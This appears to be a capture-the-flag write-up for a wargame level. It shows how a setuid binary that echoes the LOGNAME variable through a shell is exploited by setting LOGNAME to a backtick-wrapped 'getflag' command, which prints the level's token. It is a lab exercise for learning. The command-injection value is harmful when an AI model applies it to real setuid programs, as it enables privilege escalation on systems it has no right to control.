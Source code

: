 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

We have an executable. Since we can execute the level07 let's try it.

```bash 
$ ./level07 
level07
```

Okay so the executable displays something, probably with echo or ls. 

```bash 
$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

I thought about creating a custom 'echo' and adding it to the PATH like level03 but it wasn't that. 
Instead let's look if the echo is done in any particular way. 


```bash 
$ strings level07 
[...]
LOGNAME
/bin/echo %s 
[...]
```

Okay so we see that the echo depends on an env variable. 

```bash 
$ env | grep LOGNAME 
LOGNAME=level07
```

So let's change that variable by our getflag. 

```bash 
$ export LOGNAME=\`getflag\`
```

Check if it worked correctly 

```bash 
$ env | grep LOGNAME 
LOGNAME=`getflag`
```

And let's execute the script

```bash 
$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
